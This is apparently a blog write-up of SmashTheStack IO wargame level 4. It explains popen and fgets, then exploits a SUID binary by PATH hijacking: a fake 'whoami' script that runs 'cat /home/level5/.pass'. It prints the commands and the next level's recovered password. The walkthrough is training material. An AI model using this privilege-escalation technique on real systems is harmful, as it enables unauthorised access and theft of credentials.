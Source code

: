 ```yaml
---
layout: post
title: "SmashTheStack IO Level 4"
date: 2014-07-07 22:24:52 +0300
comments: true
categories: [writeups, wargames]
keywords: smash the stack, wargames, smashthestack io, smashthestack io level 4, smashthestack
description: SmashTheStack IO Level 4
---
```


We have source code for this level as well in level04.c:
<!-- more -->

``` c
//writen by bla
#include <stdlib.h>
#include <stdio.h>

int main() {
        char username[1024];
        FILE* f = popen("whoami","r");
        fgets(username, sizeof(username), f);
        printf("Welcome %s", username);

        return 0;
}
```

#### Function overview

**popen**

_FILE *popen(const char *command, const char *type);_

Opens a process by creating a pipe,  forking,  and invoking  the shell.  Since a pipe is by definition unidirectional, the type argument may specify  only  reading  or  writing,  not  both;  the resulting stream is correspondingly read-only or write-only.

The  command argument is a pointer to a null-terminated string containing a shell command line.  This command is passed to /bin/sh using  the -c  flag;  interpretation, if any, is performed by the shell.  The type argument is a pointer to a null-terminated string  which  must  contain either the letter 'r' for reading or the letter 'w' for writing.  Since glibc 2.9, this argument can additionally include the letter 'e', which causes  the close-on-exec flag (FD_CLOEXEC) to be set on the underlying file descriptor.

The  return  value  from popen() is a normal standard I/O stream in all respects save  that  it  must  be  closed  with  pclose()  rather  than *fclose(3)*.   Writing  to  such a stream writes to the standard input of the command; the command's standard output is the same as that  of  the process  that  called  popen(),  unless  this is altered by the command itself.  Conversely, reading from a "popened"  stream  reads  the  command's standard output, and the command's standard input is the same as that of the process that called popen().

Note that output popen() streams are fully buffered by default.

The popen() function returns NULL if the *fork(2)* or *pipe(2)* calls fail, or if it cannot allocate memory.

The popen() function does not set errno if memory allocation fails.  If the underlying fork(2) or pipe(2) fails, errno  is  set  appropriately. If  the type argument is invalid, and this condition is detected, errno is set to EINVAL.

Since the standard input of a command opened  for  reading  shares  its seek  offset  with  the  process  that  called popen(), if the original process has done a buffered read, the command's input position may  not be  as expected.  Similarly, the output from a command opened for writing may become intermingled with that of  the  original  process.   The latter can be avoided by calling fflush(3) before popen().

Failure  to  execute  the  shell  is indistinguishable from the shell's failure to execute command, or an immediate exit of the  command.   The only hint is an exit status of 127.


**fgets**

_char *fgets(char *str, int num, FILE *stream);_

The *fgets()* function reads up to *num–1* characters from *stream* and stores them in the character array pointed to by *str*. Characters are read until either a newline or an EOF is received or until the specified limit is reached. After the characters have been read, a null is stored in the array immediately after the last character read. A newline character will be retained and will be part of the array pointed to by *str*.


On success, the function returns *str*.
If the end-of-file is encountered while attempting to read a character, the eof indicator is set (*feof*). If this happens before any characters could be read, the pointer returned is a null pointer (and the contents of *str* remain unchanged).
If a read error occurs, the error indicator (*ferror*) is set and a null pointer is also returned (but the contents pointed by *str* may have changed).


#### Program description

This program executes a shell command and prints the results. If we try to run it, we see this:

``` plain
level4@io:/levels$ ./level04
Welcome level5
```

This makes sense, since it's a SUID binary owned by the level5 user. What we want to do is substitue the command called by popen with one that will help us advance, like <code>cat /home/level5/.pass</code>

We can't directly influence the program since it doesn't take user input. But we know that the change must occur in the popen line. So in that line, it opens a pipe for reading to the *whoami* command. We can't put another command its place, but maybe we don't have to. How does the program know where to find whoami? Let's first find it ourselves:

``` plain
level4@io:/levels$ which whoami
/usr/bin/whoami
```

For this we have to understand the concept of PATH:

> PATH is an environmental variable in Linux and other Unix-like operating systems that tells the shell which directories to search for 
> executable files in response to commands issued by a user. 
> Each user on a system can have a different PATH variable. 

> (The Linux Information Project)

To see the contents of our PATH variable, we do this:

``` plain
level4@io:/levels$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

So this is how the program knew how to find whoami. It just searched those directories until it found it. And we know we can add a new directory to our default search path with one of the below commands:

``` plain
PATH="directory:$PATH"

PATH=$PATH:directory
export PATH

export PATH=$PATH:directory
```

Now we should get an idea of the steps to exploit the program. We can create our own directory and store in it a program named whoami that would do what we want it to. Then should add that directory to our path, and then level04 program searches for whoami, it will hit upon our own whoami version instead. Let's do that now.

``` plain
level4@io:/levels$ mkdir /tmp/mydir
level4@io:/tmp/mydir$ echo "cat /home/level5/.pass" > /tmp/mydir/whoami
level4@io:/tmp/mydir$ ls -l whoami
-rw-r--r-- 1 level4 level4 23 Jul 17 17:44 whoami
```

If we leave it like this, the permissions won't allow it to be executed, so I make it readable, writable and executable for everyone with the following:

``` plain
chmod 777 whoami
level4@io:/tmp/mydir$ ls -l whoami
-rwxrwxrwx 1 level4 level4 23 Jul 17 17:44 whoami
```

Now add our directory to our PATH:

``` plain
level4@io:/tmp/mydir$ PATH="/tmp/mydir:$PATH"
level4@io:/tmp/mydir$ echo $PATH
/tmp/mydir:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

All that's left is to run the level04 binary and collect the password:

``` plain
level4@io:/tmp/mydir$ /levels/level04
Welcome KGpWsju2vDpmxcxlvm
```

> Work consists of whatever a body is obliged to do.
> Play consists of whatever a body is not obliged to do.

> -- Mark Twain




